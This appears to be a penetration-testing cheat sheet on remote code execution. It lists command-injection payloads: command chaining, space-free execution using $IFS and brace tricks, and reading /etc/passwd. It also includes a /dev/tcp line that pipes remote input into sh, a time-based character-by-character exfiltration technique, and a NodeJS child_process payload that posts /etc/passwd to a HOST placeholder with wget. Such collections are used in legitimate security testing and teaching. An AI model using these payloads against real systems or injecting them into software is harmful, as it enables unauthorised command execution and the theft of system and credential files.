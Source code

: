 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Exploits
Normal code execution, execute the command and voila :p
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

Code execution by chaining commands
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

Code execution without space
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

## Time based data exfiltration
Extracting data : char by char
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```

## Environment based 
NodeJS Code execution
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## Thanks to
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
